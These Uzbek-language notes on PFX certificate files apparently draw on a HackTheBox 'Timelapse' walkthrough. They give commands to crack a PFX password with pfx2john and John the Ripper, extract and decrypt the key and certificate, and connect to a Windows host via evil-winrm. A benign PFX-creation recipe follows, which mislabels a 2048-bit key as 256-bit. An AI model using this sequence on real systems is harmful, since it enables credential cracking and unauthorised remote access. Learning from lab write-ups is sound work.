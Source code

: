 **PFX fayl parolini aniqlash?**  
PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   
1. Hash yaratish.
 - **# pfx2john fayl.pfx > fayl.hash**
2. John the Ripper bilan parolni ochish.
 - **# john fayl.hash --wordlist=/usr/share/wordlists/rockyou.txt --force**
3. Kalit va sertifikatni olish.  
   A. Shaxsiy kalitni chiqarish:
    - **# openssl pkcs12 -in fayl.pfx -nocerts -out fayl.key-enc**
    - Enter Import Password:(hash orqali aniqlangan parol (Brute force paroli))  Enter PEM pass phrase(Shaxsiy kalit uchun yangi parol kiritish): Verifying - Enter PEM pass phrase(qayta kiritish):   
   B. Sertifikatni chiqarish:   
    - **# openssl pkcs12 -in fayl.pfx -clcerts -nokeys -out fayl.crt**   
   C. Shaxsiy Kalitni shifrdan yechish (Decrypt):
    - **# openssl rsa -in fayl.key-enc -out fayl.key**
    - yuqorida kiritilgan yangi parol kiritiladi.
4. evil-winrm orqali tizimga ulanish. (evil-winrm — bu Windows Remote Management (WinRM) protokoliga asoslangan vosita bo'lib, Windows tizimlariga masofaviy ulanish uchun ishlatiladi.)
 - **# evil-winrm -i <IP> -k fayl.key -c fayl.crt -S -r timelapse**    

Asosiy parametrlar:   
**-i <IP>** – Masofaviy Windows mashinasining IP manzili. (Masalan: 10.10.10.10)  
**-k fayl.key** – Shaxsiy kalit (Private Key) fayli. Bu kalit .pfx fayldan ajratib olingan bo'lishi kerak.  
**-c fayl.crt** – Sertifikat (Certificate) fayli. Bu ham .pfx fayldan chiqarib olingan.  
**-S** – HTTPS orqali ulanish. Bu parametr WinRM xizmatiga xavfsiz (TLS) ulanishni ta'minlaydi.  
**-r timelapse** – Bu parametr ressurs nomini ko'rsatadi. Bu misolda "timelapse" deb nomlangan domen yoki ma'lum bir ulanish konteksti kiritilgan. (Bu CTF topshirig'ida maxsus muhit yoki ulanish nuqtasi bo'lishi mumkin.)    
 - **# evil-winrm -i 10.10.10.10 -k private.key -c certificate.crt -S**  
https://www.hackingarticles.in/timelapse-hackthebox-walkthrough/


**PFX fayl yaratish (Namuna)**
1. OpenSSL o'rnatilganligini tekshirish
 - **# openssl version**
 - Agar o'rnatilmagan bo'lsa (**# sudo apt update && sudo apt install openssl**)
2. Shaxsiy kalit (Private Key) yaratish (256-bitli RSA shaxsiy kalit yaratish)
 - **# openssl genrsa -out private.key 2048**
 -  **private.key** — bu shaxsiy kalit bo'lib, maxfiy saqlanishi kerak.
3.  Sertifikat uchun talab (CSR - Certificate Signing Request) yaratish
 - **# openssl req -new -key private.key -out request.csr**
4. Self-Signed Certificate yaratish.
 - **# openssl x509 -req -days 365 -in request.csr -signkey private.key -out certificate.crt**
5. PFX (PKCS#12) faylini yaratish.
 - **# openssl pkcs12 -export -out mycertificate.pfx -inkey private.key -in certificate.crt**
6. Yaratilgan PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   

